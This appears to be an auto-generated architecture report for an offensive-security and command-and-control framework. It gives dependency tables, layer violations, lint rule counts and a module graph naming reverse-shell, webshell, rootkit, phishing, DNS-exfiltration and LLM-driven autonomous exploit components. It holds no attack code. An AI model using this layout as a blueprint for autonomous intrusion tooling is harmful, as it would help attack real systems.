| `autonomous_daemon.py -> lazyown_mcp.py -> autonomous_replay.py -> autonomous_daemon.py` | 3 | 3 |
| `autonomous_daemon.py -> lazyown_mcp.py -> autonomous_replay.py -> autonomous_daemon.py` | 3 | 3 |
| `autonomous_daemon.py -> lazyown_mcp.py -> autonomous_replay.py -> autonomous_daemon.py` | 3 | 3 |

---

## Change Impact Analysis

Files sorted by how many other files would be affected if they changed. High-impact files should be changed with caution.

| File | Direct Dependents | Transitive Dependents | Total Impact |
|------|------------------|----------------------|--------------|
| `logging.py` | 50 | 0 | 124 |
| `models.py` | 11 | 50 | 103 |
| `config.py` | 10 | 50 | 102 |
| `banner_config.py` | 6 | 50 | 99 |
| `parsers.py` | 9 | 50 | 99 |
| `server.c` | 12 | 50 | 99 |
| `validators.py` | 12 | 50 | 98 |
| `safe_subprocess.py` | 6 | 50 | 94 |
| `dependencies.py` | 3 | 50 | 93 |
| `lazyencoder_decoder.py` | 5 | 50 | 93 |
| `parser.py` | 4 | 50 | 93 |
| `_base.py` | 50 | 0 | 89 |
| `utils.py` | 50 | 0 | 88 |
| `host_policy.py` | 3 | 50 | 87 |
| `lazyown_llm.py` | 4 | 50 | 80 |

---

## Architecture Violations

Violations of architectural layer rules detected in the import graph. **66 strict violations, 0 warnings.**

| Source | Source Layer | Target | Target Layer | Description | Severity |
|--------|-------------|--------|-------------|-------------|----------|
| `operations.py` | presentation | `storage.py` | data_access | presentation must not import data_access | strict |
| `integration_autonomous_flow.py` | testing | `moe_router.py` | presentation | testing must not import presentation | strict |
| `test_addon_creator.py` | testing | `addons.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |
| `test_api_authz.py` | testing | `api_authz.py` | presentation | testing must not import presentation | strict |

---

## Suggested Linting Rules

Automatically suggested linting and security rules based on patterns detected in the codebase. These can be exported as Semgrep rules using the `--export-rules` flag.

| Rule ID | Severity | Description | Language | Matches |
|---------|----------|-------------|----------|---------|
| `RM009` | error | Hardcoded credential detected | multi | 75 |
| `RM001` | info | Large number of functions in sh: 204 total | sh | 204 |
| `RM002` | info | Large number of functions in py: 15144 total | py | 15144 |
| `RM003` | info | Large number of functions in c: 188 total | c | 188 |
| `RM004` | info | Large number of functions in cs: 4 total | cs | 4 |
| `RM005` | info | Large number of functions in cpp: 5 total | cpp | 5 |
| `RM006` | info | Large number of functions in lua: 45 total | lua | 45 |
| `RM007` | info | Large number of functions in js: 1281 total | js | 1281 |
| `RM008` | info | Print statement found (consider logging instead) | python | 1823 |

---

## Orphans

Files with no documentation or low connectivity. These are candidates for documentation investment or cleanup.

- `__init__.py` (0 symbols, no doc)
- `lazy_http_bof.py` (2 symbols, no doc)
- `lazy_packet_image_sniffer.py` (9 symbols, no doc)
- `lazyarpspoofing.py` (7 symbols, no doc)
- `lazybinenc.py` (2 symbols, no doc)
- `lazycreate_webshell.py` (0 symbols, no doc)
- `lazyftpsniff.py` (5 symbols, no doc)
- `lazygalazy.py` (7 symbols, no doc)
- `lazyhttpreverseshell.py` (10 symbols, no doc)
- `lazykeygen.py` (5 symbols, no doc)
- `lazylfi2rce.py` (4 symbols, no doc)
- `lazylogpoisoning.py` (3 symbols, no doc)
- `lazymidm.py` (8 symbols, no doc)
- `lazyntlrelayx.py` (2 symbols, no doc)
- `lazyproxy.py` (9 symbols, no doc)
- `lazypwn.py` (15 symbols, no doc)
- `lazypyautogui.py` (0 symbols, no doc)
- `lazyreversentlmv2.py` (2 symbols, no doc)
- `lazyseo.py` (9 symbols, no doc)
- `lazysmbrelay.py` (7 symbols, no doc)
- *... and 81 more*

---

## Query Recipes

Example queries you can run against this knowledge base using the ranking engine:

```
# Find files most relevant to a concept
readmenator query "Where is the import resolver implemented?"

# Rank files by relevance to a topic
readmenator query "How does documentation generation work?"

# Explain why a file ranks highly
readmenator query "explain readmenator/_documentation.py"

# Trace dependency paths with ranked context
readmenator query "path from CLI to exporter"
```

The ranking model uses the following signals:

- **Personalized PageRank** (45% weight): query-specific relevance via seed propagation
- **Global Authority** (20% weight): structural importance via standard PageRank
- **Test Coverage** (15% weight): fraction of symbols referenced in test files
- **Doc Coverage** (10% weight): presence of docstrings and file-level docs
- **Freshness** (10% weight): recent modification activity

Results include score decomposition and justification paths for each ranked item.

---

## Structural Knowledge Map

> **Note:** The visual graph below has been intelligently pruned to the top 300 most relevant nodes to prevent rendering crashes. Full details of all files are documented in the Architecture Reference.

```mermaid
graph LR
    classDef mod fill:#1e1e1e,stroke:#ff6666,stroke-width:2px,color:#fff;
    classDef cls fill:#2d2d2d,stroke:#4ec9b0,stroke-width:2px,color:#fff;
    classDef fn fill:#333,stroke:#dcdcaa,stroke-width:1px,color:#dcdcaa;
    classDef ext fill:#111,stroke:#666,stroke-dasharray:5 5,color:#aaa;
    subgraph community_7 ["static/js"]
    static_js_3d_force_graph_1_73_4_min_js["3d-force-graph-1.73.4.min.js (js)"]
    class static_js_3d_force_graph_1_73_4_min_js mod;
    static_js_3d_force_graph_1_73_4_min_js_is["is"]
    class static_js_3d_force_graph_1_73_4_min_js_is fn;
    static_js_3d_force_graph_1_73_4_min_js --> static_js_3d_force_graph_1_73_4_min_js_is
    static_js_3d_force_graph_1_73_4_min_js_newNode["newNode"]
    class static_js_3d_force_graph_1_73_4_min_js_newNode fn;
    static_js_3d_force_graph_1_73_4_min_js --> static_js_3d_force_graph_1_73_4_min_js_newNode
    static_js_3d_force_graph_1_73_4_min_js_update["update"]
    class static_js_3d_force_graph_1_73_4_min_js_update fn;
    static_js_3d_force_graph_1_73_4_min_js --> static_js_3d_force_graph_1_73_4_min_js_update
    static_js_3d_force_graph_1_73_4_min_js_insertBodies["insertBodies"]
    class static_js_3d_force_graph_1_73_4_min_js_insertBodies fn;
    static_js_3d_force_graph_1_73_4_min_js --> static_js_3d_force_graph_1_73_4_min_js_insertBodies
    static_js_3d_force_graph_1_73_4_min_js_insert["insert"]
    class static_js_3d_force_graph_1_73_4_min_js_insert fn;
    static_js_3d_force_graph_1_73_4_min_js --> static_js_3d_force_graph_1_73_4_min_js_insert
    static_js_html2pdf_bundle_min_js["html2pdf.bundle.min.js (js)"]
    class static_js_html2pdf_bundle_min_js mod;
    end
    subgraph community_1 ["modules: lazyc2"]
    static_js_xterm_js["xterm.js (js)"]
    class static_js_xterm_js mod;
    static_js_vis_network_9_1_2_min_js["vis-network-9.1.2.min.js (js)"]
    class static_js_vis_network_9_1_2_min_js mod;
    static_js_vis_network_min_js["vis-network.min.js (js)"]
    class static_js_vis_network_min_js mod;
    static_js_quill_2_0_3_js["quill-2.0.3.js (js)"]
    class static_js_quill_2_0_3_js mod;
    static_js_chart_min_js["chart.min.js (js)"]
    class static_js_chart_min_js mod;
    static_js_force_graph_1_43_5_min_js["force-graph-1.43.5.min.js (js)"]
    class static_js_force_graph_1_43_5_min_js mod;
    static_js_bootstrap_5_3_0_bundle_min_js["bootstrap-5.3.0.bundle.min.js (js)"]
    class static_js_bootstrap_5_3_0_bundle_min_js mod;
    static_js_select2_4_1_0_min_js["select2-4.1.0.min.js (js)"]
    class static_js_select2_4_1_0_min_js mod;
    static_js_jquery_3_5_1_slim_min_js["jquery-3.5.1.slim.min.js (js)"]
    class static_js_jquery_3_5_1_slim_min_js mod;
    static_js_bootstrap_4_5_2_min_js["bootstrap-4.5.2.min.js (js)"]
    class static_js_bootstrap_4_5_2_min_js mod;
    static_js_showdown_2_1_0_min_js["showdown-2.1.0.min.js (js)"]
    class static_js_showdown_2_1_0_min_js mod;
    end
    subgraph community_8 ["cli: banner_config"]
    static_js_socket_io_4_0_0_min_js["socket.io-4.0.0.min.js (js)"]
    class static_js_socket_io_4_0_0_min_js mod;
    end
    subgraph community_2 ["modules: autonomous_daemon"]
    skills_lazyown_mcp_py["lazyown_mcp.py (py)"]
    class skills_lazyown_mcp_py mod;
    static_js_socket_io_4_3_2_min_js["socket.io-4.3.2.min.js (js)"]
    class static_js_socket_io_4_3_2_min_js mod;
    static_js_tippy_6_js["tippy-6.js (js)"]
    class static_js_tippy_6_js mod;
    end
    subgraph community_4 ["modules: lazy_loop"]
    tests_test_lazy_runner_py["test_lazy_runner.py (py)"]
    class tests_test_lazy_runner_py mod;
    lazyc2_py["lazyc2.py (py)"]
    class lazyc2_py mod;
    static_js_particles_js["particles.js (js)"]
    class static_js_particles_js mod;
    end
    subgraph community_3 ["cli: status_bar"]
    tests_test_command_palette_py["test_command_palette.py (py)"]
    class tests_test_command_palette_py mod;
    modules_lazy_loop_py["lazy_loop.py (py)"]
    class modules_lazy_loop_py mod;
    tests_test_core_modules_py["test_core_modules.py (py)"]
    class tests_test_core_modules_py mod;
    lazyown_py["lazyown.py (py)"]
    class lazyown_py mod;
    static_js_popper_2_5_4_min_js["popper-2.5.4.min.js (js)"]
    class static_js_popper_2_5_4_min_js mod;
    cli_commands_lazyops_py["lazyops.py (py)"]
    class cli_commands_lazyops_py mod;
    end
    subgraph community_0 ["cli/commands: utils"]
    cli_commands_misc_migrated_py["misc_migrated.py (py)"]
    class cli_commands_misc_migrated_py mod;
    skills_autonomous_daemon_py["autonomous_daemon.py (py)"]
    class skills_autonomous_daemon_py mod;
    tests_test_security_hardening_v3_py["test_security_hardening_v3.py (py)"]
    class tests_test_security_hardening_v3_py mod;
    skills_tests_test_autonomous_daemon_py["test_autonomous_daemon.py (py)"]
    class skills_tests_test_autonomous_daemon_py mod;
    cli_commands_session_ops_py["session_ops.py (py)"]
    class cli_commands_session_ops_py mod;
    tests_test_pipeline_engine_py["test_pipeline_engine.py (py)"]
    class tests_test_pipeline_engine_py mod;
    tests_test_moe_rl_swan_py["test_moe_rl_swan.py (py)"]
    class tests_test_moe_rl_swan_py mod;
    utils_py["utils.py (py)"]
    class utils_py mod;
    tests_test_aci_planner_py["test_aci_planner.py (py)"]
    class tests_test_aci_planner_py mod;
    skills_tests_test_hive_mind_py["test_hive_mind.py (py)"]
    class skills_tests_test_hive_mind_py mod;
    tests_test_engagement_elo_and_methodology_py["test_engagement_elo_and_methodology.py (py)"]
    class tests_test_engagement_elo_and_methodology_py mod;
    cli_commands_help_ui_py["help_ui.py (py)"]
    class cli_commands_help_ui_py mod;
    tests_test_security_hardening_v4_py["test_security_hardening_v4.py (py)"]
    class tests_test_security_hardening_v4_py mod;
    tests_test_infra_disposable_py["test_infra_disposable.py (py)"]
    class tests_test_infra_disposable_py mod;
    tests_test_lazy_loop_py["test_lazy_loop.py (py)"]
    class tests_test_lazy_loop_py mod;
    tests_test_engage_orchestrator_py["test_engage_orchestrator.py (py)"]
    class tests_test_engage_orchestrator_py mod;
    cli_tips_engine_py["tips_engine.py (py)"]
    class cli_tips_engine_py mod;
    tests_test_engagement_and_ping_py["test_engagement_and_ping.py (py)"]
    class tests_test_engagement_and_ping_py mod;
    tests_test_lazy_parity_py["test_lazy_parity.py (py)"]
    class tests_test_lazy_parity_py mod;
    tests_test_security_codeql_batch_py["test_security_codeql_batch.py (py)"]
    class tests_test_security_codeql_batch_py mod;
    end
    subgraph community_6 ["modules: estorides_importer"]
    tests_test_core_py["test_core.py (py)"]
    class tests_test_core_py mod;
    tests_test_killchain_unified_v2_py["test_killchain_unified_v2.py (py)"]
    class tests_test_killchain_unified_v2_py mod;
    tests_test_cli_command_sets_py["test_cli_command_sets.py (py)"]
    class tests_test_cli_command_sets_py mod;
    tests_test_structured_logging_py["test_structured_logging.py (py)"]
    class tests_test_structured_logging_py mod;
    tests_test_api_authz_py["test_api_authz.py (py)"]
    class tests_test_api_authz_py mod;
    tests_test_lazy_proxy_py["test_lazy_proxy.py (py)"]
    class tests_test_lazy_proxy_py mod;
    cli_dashboard_tui_py["dashboard_tui.py (py)"]
    class cli_dashboard_tui_py mod;
    skills_lazyown_groq_agents_py["lazyown_groq_agents.py (py)"]
    class skills_lazyown_groq_agents_py mod;
    tests_test_improvements_spec_py["test_improvements_spec.py (py)"]
    class tests_test_improvements_spec_py mod;
    cli_lazy_orchestrator_py["lazy_orchestrator.py (py)"]
    class cli_lazy_orchestrator_py mod;
    modules_lazy_runner_py["lazy_runner.py (py)"]
    class modules_lazy_runner_py mod;
    tests_test_reactive_hints_expanded_py["test_reactive_hints_expanded.py (py)"]
    class tests_test_reactive_hints_expanded_py mod;
    tests_test_lazy_orchestrator_py["test_lazy_orchestrator.py (py)"]
    class tests_test_lazy_orchestrator_py mod;
    tests_test_scope_bound_auto_gate_py["test_scope_bound_auto_gate.py (py)"]
    class tests_test_scope_bound_auto_gate_py mod;
    tests_test_engage_gates_py["test_engage_gates.py (py)"]
    class tests_test_engage_gates_py mod;
    tests_test_llm_budget_py["test_llm_budget.py (py)"]
    class tests_test_llm_budget_py mod;
    tests_test_core_config_py["test_core_config.py (py)"]
    class tests_test_core_config_py mod;
    tests_test_autonomous_ops_py["test_autonomous_ops.py (py)"]
    class tests_test_autonomous_ops_py mod;
    tests_test_cli_assign_py["test_cli_assign.py (py)"]
    class tests_test_cli_assign_py mod;
    tests_test_loop_auto_orchestrator_py["test_loop_auto_orchestrator.py (py)"]
    class tests_test_loop_auto_orchestrator_py mod;
    cli_commands_pwn_py["pwn.py (py)"]
    class cli_commands_pwn_py mod;
    static_js_purify_3_0_9_min_js["purify-3.0.9.min.js (js)"]
    class static_js_purify_3_0_9_min_js mod;
    modules_exp_c["exp.c (c)"]
    class modules_exp_c mod;
    tests_test_loop_llm_resilience_py["test_loop_llm_resilience.py (py)"]
    class tests_test_loop_llm_resilience_py mod;
    modules_lazy_proxy_py["lazy_proxy.py (py)"]
    class modules_lazy_proxy_py mod;
    modules_auto_registry_py["auto_registry.py (py)"]
    class modules_auto_registry_py mod;
    cli_commands_command_and_control_migrated_py["command_and_control_migrated.py (py)"]
    class cli_commands_command_and_control_migrated_py mod;
    lazyc2_blueprints_auth_py["auth.py (py)"]
    class lazyc2_blueprints_auth_py mod;
    cli_commands_security_py["security.py (py)"]
    class cli_commands_security_py mod;
    cli_commands_exfiltration_py["exfiltration.py (py)"]
    class cli_commands_exfiltration_py mod;
    modules_lazy_agent_py["lazy_agent.py (py)"]
    class modules_lazy_agent_py mod;
    modules_unified_bridge_py["unified_bridge.py (py)"]
    class modules_unified_bridge_py mod;
    tests_test_exploitgym_gym_py["test_exploitgym_gym.py (py)"]
    class tests_test_exploitgym_gym_py mod;
    end
    subgraph community_5 ["lazygui/panels"]
    lazygui_panels_registry_py["registry.py (py)"]
    class lazygui_panels_registry_py mod;
    modules_auto_purple_py["auto_purple.py (py)"]
    class modules_auto_purple_py mod;
    tests_test_engagement_command_gate_py["test_engagement_command_gate.py (py)"]
    class tests_test_engagement_command_gate_py mod;
    end
    subgraph community_9 ["cli/commands: c2_profile_engine"]
    skills_tests_test_harness_e2e_py["test_harness_e2e.py (py)"]
    class skills_tests_test_harness_e2e_py mod;
    cli_commands_mcp_bridge_py["mcp_bridge.py (py)"]
    class cli_commands_mcp_bridge_py mod;
    cli_commands_automation_py["automation.py (py)"]
    class cli_commands_automation_py mod;
    skills_hive_mind_py["hive_mind.py (py)"]
    class skills_hive_mind_py mod;
    lazy_sentinel4_py["lazy_sentinel4.py (py)"]
    class lazy_sentinel4_py mod;
    skills_swan_agent_py["swan_agent.py (py)"]
    class skills_swan_agent_py mod;
    tests_test_core_executor_py["test_core_executor.py (py)"]
    class tests_test_core_executor_py mod;
    lazygui_app_py["app.py (py)"]
    class lazygui_app_py mod;
    cli_commands_bof_registry_py["bof_registry.py (py)"]
    class cli_commands_bof_registry_py mod;
    cli_wizard_py["wizard.py (py)"]
    class cli_wizard_py mod;
    tests_test_command_set_migration_py["test_command_set_migration.py (py)"]
    class tests_test_command_set_migration_py mod;
    lazygui_windows_main_window_py["main_window.py (py)"]
    class lazygui_windows_main_window_py mod;
    tests_test_collab_and_onboarding_py["test_collab_and_onboarding.py (py)"]
    class tests_test_collab_and_onboarding_py mod;
    cli_commands_exploit_migrated_py["exploit_migrated.py (py)"]
    class cli_commands_exploit_migrated_py mod;
    cli_commands_recon_migrated_py["recon_migrated.py (py)"]
    class cli_commands_recon_migrated_py mod;
    skills_lazyown_parquet_db_py["lazyown_parquet_db.py (py)"]
    class skills_lazyown_parquet_db_py mod;
    tests_test_lazy_agent_py["test_lazy_agent.py (py)"]
    class tests_test_lazy_agent_py mod;
    cli_commands_ux_py["ux.py (py)"]
    class cli_commands_ux_py mod;
    skills_lazyown_policy_py["lazyown_policy.py (py)"]
    class skills_lazyown_policy_py mod;
    modules_autonomous_exploit_engine_py["autonomous_exploit_engine.py (py)"]
    class modules_autonomous_exploit_engine_py mod;
    modules_agent_runner_py["agent_runner.py (py)"]
    class modules_agent_runner_py mod;
    modules_loop_ai_bridge_py["loop_ai_bridge.py (py)"]
    class modules_loop_ai_bridge_py mod;
    cli_commands_daemon_ctl_py["daemon_ctl.py (py)"]
    class cli_commands_daemon_ctl_py mod;
    tests_test_phase1_data_gaps_py["test_phase1_data_gaps.py (py)"]
    class tests_test_phase1_data_gaps_py mod;
    cli_palette_command_py["palette_command.py (py)"]
    class cli_palette_command_py mod;
    modules_playbook_engine_py["playbook_engine.py (py)"]
    class modules_playbook_engine_py mod;
    poc_tui_app_py["app.py (py)"]
    class poc_tui_app_py mod;
    end
    subgraph community_14 ["skills/hermes-lazyown"]
    skills_hermes_lazyown_mcp_server_py["mcp_server.py (py)"]
    class skills_hermes_lazyown_mcp_server_py mod;
    cli_commands_ai_py["ai.py (py)"]
    class cli_commands_ai_py mod;
    cli_commands_anti_forensics_py["anti_forensics.py (py)"]
    class cli_commands_anti_forensics_py mod;
    lazygui_panels___init___py["__init__.py (py)"]
    class lazygui_panels___init___py mod;
    cli_commands_postexp_migrated_py["postexp_migrated.py (py)"]
    class cli_commands_postexp_migrated_py mod;
    modules_venator_py["venator.py (py)"]
    class modules_venator_py mod;
    skills_sessions_watcher_py["sessions_watcher.py (py)"]
    class skills_sessions_watcher_py mod;
    tests_test_core_command_bridge_py["test_core_command_bridge.py (py)"]
    class tests_test_core_command_bridge_py mod;
    tests_test_loop_ai_bridge_py["test_loop_ai_bridge.py (py)"]
    class tests_test_loop_ai_bridge_py mod;
    modules_rootkit_rootkit_c["rootkit.c (c)"]
    class modules_rootkit_rootkit_c mod;
    cli_commands_dns_exfil_py["dns_exfil.py (py)"]
    class cli_commands_dns_exfil_py mod;
    cli_ops_commands_py["ops_commands.py (py)"]
    class cli_ops_commands_py mod;
    tests_test_security_hardening_v5_py["test_security_hardening_v5.py (py)"]
    class tests_test_security_hardening_v5_py mod;
    tests_test_llm_adapter_parity_py["test_llm_adapter_parity.py (py)"]
    class tests_test_llm_adapter_parity_py mod;
    cli_recommendation_signals_py["recommendation_signals.py (py)"]
    class cli_recommendation_signals_py mod;
    modules_intelligence_engine_py["intelligence_engine.py (py)"]
    class modules_intelligence_engine_py mod;
    modules_command_executor_py["command_executor.py (py)"]
    class modules_command_executor_py mod;
    skills_lazyown_daemon_py["lazyown_daemon.py (py)"]
    class skills_lazyown_daemon_py mod;
    modules_phishing_orchestrator_py["phishing_orchestrator.py (py)"]
    class modules_phishing_orchestrator_py mod;
    tests_test_auto_crypto_py["test_auto_crypto.py (py)"]
    class tests_test_auto_crypto_py mod;
    cli_commands_phishing_wizard_py["phishing_wizard.py (py)"]
    class cli_commands_phishing_wizard_py mod;
    cli_commands_lazyloop_py["lazyloop.py (py)"]
    class cli_commands_lazyloop_py mod;
    tests_test_lazy_worker_safety_py["test_lazy_worker_safety.py (py)"]
    class tests_test_lazy_worker_safety_py mod;
    cli_banner_config_py["banner_config.py (py)"]
    class cli_banner_config_py mod;
    modules_pipeline_engine_py["pipeline_engine.py (py)"]
    class modules_pipeline_engine_py mod;
    modules_rootkit_mrhyde3_c["mrhyde3.c (c)"]
    class modules_rootkit_mrhyde3_c mod;
    cli_commands_persist_migrated_py["persist_migrated.py (py)"]
    class cli_commands_persist_migrated_py mod;
    skills_lazyown_llm_py["lazyown_llm.py (py)"]
    class skills_lazyown_llm_py mod;
    modules_lazy_mentions_py["lazy_mentions.py (py)"]
    class modules_lazy_mentions_py mod;
    tests_conftest_py["conftest.py (py)"]
    class tests_conftest_py mod;
    tests_test_loop_supervision_py["test_loop_supervision.py (py)"]
    class tests_test_loop_supervision_py mod;
    skills_unified_orchestrator_py["unified_orchestrator.py (py)"]
    class skills_unified_orchestrator_py mod;
    modules_operation_py["operation.py (py)"]
    class modules_operation_py mod;
    modules_c2_builder_py["c2_builder.py (py)"]
    class modules_c2_builder_py mod;
    end
    subgraph community_10 ["skills/claude_md_orchestrator"]
    skills_claude_md_orchestrator_orchestrator_py["orchestrator.py (py)"]
    class skills_claude_md_orchestrator_orchestrator_py mod;
    modules_cli_auth_py["cli_auth.py (py)"]
    class modules_cli_auth_py mod;
    tests_test_asset_gate_py["test_asset_gate.py (py)"]
    class tests_test_asset_gate_py mod;
    modules_rich_tui_py["rich_tui.py (py)"]
    class modules_rich_tui_py mod;
    tests_test_daemon_ctl_command_set_py["test_daemon_ctl_command_set.py (py)"]
    class tests_test_daemon_ctl_command_set_py mod;
    tests_test_encoding_command_set_py["test_encoding_command_set.py (py)"]
    class tests_test_encoding_command_set_py mod;
    tests_test_help_ui_command_set_py["test_help_ui_command_set.py (py)"]
    class tests_test_help_ui_command_set_py mod;
    tests_test_nethelpers_command_set_py["test_nethelpers_command_set.py (py)"]
    class tests_test_nethelpers_command_set_py mod;
    tests_test_session_ops_command_set_py["test_session_ops_command_set.py (py)"]
    class tests_test_session_ops_command_set_py mod;
    tests_test_shellsys_command_set_py["test_shellsys_command_set.py (py)"]
    class tests_test_shellsys_command_set_py mod;
    core___init___py["__init__.py (py)"]
    class core___init___py mod;
    modules_lazy_rbac_py["lazy_rbac.py (py)"]
    class modules_lazy_rbac_py mod;
    modules_estorides_importer_py["estorides_importer.py (py)"]
    class modules_estorides_importer_py mod;
    tests_test_daemon_loop_py["test_daemon_loop.py (py)"]
    class tests_test_daemon_loop_py mod;
    telegram_hermes_py["telegram_hermes.py (py)"]
    class telegram_hermes_py mod;
    modules_toposwarm_bridge_py["toposwarm_bridge.py (py)"]
    class modules_toposwarm_bridge_py mod;
    end
    subgraph community_11 ["modules: surface_graph"]
    cli_commands_database_py["database.py (py)"]
    class cli_commands_database_py mod;
    modules_unified_dashboard_py["unified_dashboard.py (py)"]
    class modules_unified_dashboard_py mod;
    core_process_py["process.py (py)"]
    class core_process_py mod;
    cli_commands_exploitgym_py["exploitgym.py (py)"]
    class cli_commands_exploitgym_py mod;
    cli_commands_bitm_py["bitm.py (py)"]
    class cli_commands_bitm_py mod;
    cli_commands_redteam_gym_py["redteam_gym.py (py)"]
    class cli_commands_redteam_gym_py mod;
    tests_test_safety_gates_py["test_safety_gates.py (py)"]
    class tests_test_safety_gates_py mod;
    cli_commands_cli_auth_py["cli_auth.py (py)"]
    class cli_commands_cli_auth_py mod;
    static_js_xterm_addon_fit_0_7_0_js["xterm-addon-fit-0.7.0.js (js)"]
    class static_js_xterm_addon_fit_0_7_0_js mod;
    tests_test_payload_schema_py["test_payload_schema.py (py)"]
    class tests_test_payload_schema_py mod;
    modules_collab_bp_py["collab_bp.py (py)"]
    class modules_collab_bp_py mod;
    cli_lazy_monitor_py["lazy_monitor.py (py)"]
    class cli_lazy_monitor_py mod;
    modules_event_bus_py["event_bus.py (py)"]
    class modules_event_bus_py mod;
    modules_db_py["db.py (py)"]
    class modules_db_py mod;
    lazygui_services_local_backend_py["local_backend.py (py)"]
    class lazygui_services_local_backend_py mod;
    cli_commands_recon_py["recon.py (py)"]
    class cli_commands_recon_py mod;
    lazyc2_app_factory_py["app_factory.py (py)"]
    class lazyc2_app_factory_py mod;
    modules_ai_fallback_py["ai_fallback.py (py)"]
    class modules_ai_fallback_py mod;
    cli_commands_cloud_py["cloud.py (py)"]
    class cli_commands_cloud_py mod;
    cli_commands_containers_py["containers.py (py)"]
    class cli_commands_containers_py mod;
    end
    subgraph community_15 ["modules: polymorphic_engine"]
    cli_commands_payload_arsenal_py["payload_arsenal.py (py)"]
    class cli_commands_payload_arsenal_py mod;
    modules_world_model_py["world_model.py (py)"]
    class modules_world_model_py mod;
    lazygui_services_teamserver_backend_py["teamserver_backend.py (py)"]
    class lazygui_services_teamserver_backend_py mod;
    modules_moe_router_py["moe_router.py (py)"]
    class modules_moe_router_py mod;
    modules_llm_factory_py["llm_factory.py (py)"]
    class modules_llm_factory_py mod;
    cli_palette_overlay_py["palette_overlay.py (py)"]
    class cli_palette_overlay_py mod;
    modules_event_consumers_py["event_consumers.py (py)"]
    class modules_event_consumers_py mod;
    modules_lazy_intel_py["lazy_intel.py (py)"]
    class modules_lazy_intel_py mod;
    modules_lilsplunky_py["lilsplunky.py (py)"]
    class modules_lilsplunky_py mod;
    modules_attack_surface3d_py["attack_surface3d.py (py)"]
    class modules_attack_surface3d_py mod;
    cli_commands_opsec_cleanup_py["opsec_cleanup.py (py)"]
    class cli_commands_opsec_cleanup_py mod;
    tests_test_loop_worker_traces_py["test_loop_worker_traces.py (py)"]
    class tests_test_loop_worker_traces_py mod;
    cli_commands_edr_detect_py["edr_detect.py (py)"]
    class cli_commands_edr_detect_py mod;
    static_js_xterm_addon_web_links_0_5_0_js["xterm-addon-web-links-0.5.0.js (js)"]
    class static_js_xterm_addon_web_links_0_5_0_js mod;
    tests_test_cli_enhancements_py["test_cli_enhancements.py (py)"]
    class tests_test_cli_enhancements_py mod;
    cli_doctor_py["doctor.py (py)"]
    class cli_doctor_py mod;
    tests_test_lazy_streaming_py["test_lazy_streaming.py (py)"]
    class tests_test_lazy_streaming_py mod;
    cli_reactive_hints_py["reactive_hints.py (py)"]
    class cli_reactive_hints_py mod;
    skills_toposwarm_autonomous_py["toposwarm_autonomous.py (py)"]
    class skills_toposwarm_autonomous_py mod;
    cli_commands_purple_team_py["purple_team.py (py)"]
    class cli_commands_purple_team_py mod;
    cli_commands_mobile_macos_py["mobile_macos.py (py)"]
    class cli_commands_mobile_macos_py mod;
    modules_tools_loop_smoke_py["loop_smoke.py (py)"]
    class modules_tools_loop_smoke_py mod;
    modules_icmp_server_py["icmp_server.py (py)"]
    class modules_icmp_server_py mod;
    cli_commands_cicd_py["cicd.py (py)"]
    class cli_commands_cicd_py mod;
    lazyc2_blueprints_phishing_py["phishing.py (py)"]
    class lazyc2_blueprints_phishing_py mod;
    cli_toast_bus_py["toast_bus.py (py)"]
    class cli_toast_bus_py mod;
    modules_engagement_hooks_py["engagement_hooks.py (py)"]
    class modules_engagement_hooks_py mod;
    modules_ai_model_py["ai_model.py (py)"]
    class modules_ai_model_py mod;
    cli_commands_cred_migrated_py["cred_migrated.py (py)"]
    class cli_commands_cred_migrated_py mod;
    modules_rootkit_mr_c["mr.c (c)"]
    class modules_rootkit_mr_c mod;
    cli_engagement_hooks_py["engagement_hooks.py (py)"]
    class cli_engagement_hooks_py mod;
    modules_lazyk8s_py["lazyk8s.py (py)"]
    class modules_lazyk8s_py mod;
    cli_graph_overlay_py["graph_overlay.py (py)"]
    class cli_graph_overlay_py mod;
    modules_conditional_hooks_py["conditional_hooks.py (py)"]
    class modules_conditional_hooks_py mod;
    modules_mcp_agent_bridge_py["mcp_agent_bridge.py (py)"]
    class modules_mcp_agent_bridge_py mod;
    modules_websocket_beacon_py["websocket_beacon.py (py)"]
    class modules_websocket_beacon_py mod;
    skills_autonomous_replay_py["autonomous_replay.py (py)"]
    class skills_autonomous_replay_py mod;
    modules_hash_cracker_py["hash_cracker.py (py)"]
    class modules_hash_cracker_py mod;
    contrib_legacy_lazygptcli_py["lazygptcli.py (py)"]
    class contrib_legacy_lazygptcli_py mod;
    lazygui_theme_manager_py["manager.py (py)"]
    class lazygui_theme_manager_py mod;
    tests_test_killchain_unified_py["test_killchain_unified.py (py)"]
    class tests_test_killchain_unified_py mod;
    end
    subgraph community_12 ["modules: kerberos_core"]
    cli_commands_active_directory_py["active_directory.py (py)"]
    class cli_commands_active_directory_py mod;
    cli_commands_campaign_py["campaign.py (py)"]
    class cli_commands_campaign_py mod;
    modules_ia_logs_analysis_py["ia_logs_analysis.py (py)"]
    class modules_ia_logs_analysis_py mod;
    modules_c2_profile_engine_py["c2_profile_engine.py (py)"]
    class modules_c2_profile_engine_py mod;
    modules_state_manager_py["state_manager.py (py)"]
    class modules_state_manager_py mod;
    contrib_legacy_lazyllmchat_py["lazyllmchat.py (py)"]
    class contrib_legacy_lazyllmchat_py mod;
    skills_lazyown_campaign_py["lazyown_campaign.py (py)"]
    class skills_lazyown_campaign_py mod;
